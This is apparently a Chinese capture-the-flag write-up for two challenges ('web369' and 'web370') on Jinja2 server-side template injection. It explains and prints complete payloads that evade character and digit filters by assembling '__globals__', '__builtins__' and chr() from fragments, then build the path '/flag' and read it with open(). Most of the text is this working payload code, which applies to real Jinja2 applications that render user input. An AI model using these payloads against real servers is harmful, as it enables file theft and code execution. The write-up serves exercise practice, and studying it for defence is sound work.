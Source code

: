 这里的原理是，给不同的变量赋值，然后拼接成我们想要的命令，原理参考羽师傅的[SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)。

下面逐行分析

```
构造po="pop"     
{% set po=dict(po=a,p=a)|join%}

等效于a=(()|select|string|list).pop(24),即a等价于下划线_
{% set a=(()|select|string|list)|attr(po)(24)%}

构造ini="___init__"
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}

构造glo="__globals__"
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}

构造geti="__getitem__"
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}

构造built="__builtins__"
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}

调用chr()函数
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}

构造file='/flag'
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%} 
```

## web370

简单测试可知，这题又把数字也过滤了，那就想办法构造出数字。

还是参考羽师傅的：

```
?name=
{% set c=(dict(e=a)|join|count)%}
{% set cc=(dict(ee=a)|join|count)%}
{% set ccc=(dict(eee=a)|join|count)%}
{% set cccc=(dict(eeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set coun=(cc~cccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set file=chr((cccc~ccccccc)|int)%2bchr((cccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccc~ccccccc)|int)%2bchr((cccccccccc~ccc)|int)%}
{%print(x.open(file).read())%} 
```
